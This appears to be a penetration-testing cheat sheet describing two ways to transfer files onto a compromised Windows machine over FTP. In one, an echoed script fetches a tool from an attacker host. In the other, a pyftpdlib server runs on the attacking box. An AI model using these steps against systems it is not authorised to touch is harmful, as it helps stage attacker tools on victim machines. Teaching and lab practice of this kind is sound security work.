 # ftp \(Built into Windows\)

## First Method

* on the compromised machine we echo out the following commands into a file

```bash
echo open 192.168.1.101 21 > ftp.txt
echo user asshat >> ftp.txt
echo secretPass >> ftp.txt
echo bin >> ftp.txt
echo get wget.ext >> ftp.txt
echo bye >> ftp.txt
```

* then run this command

```bash
ftp -v -n -s:ftp.txt
```

* a ftp-server configured with the user asshat and the password secretPass is needed

## Second Method

* on the attacking Linux machine run

```bash
pip install pyftpdlib
```

* then run this command on Attacking Machine

```bash
python -m pyftpdlib -p 21 w
```

* run on Victim Machine

```bash
ftp 10.10.10.10
```

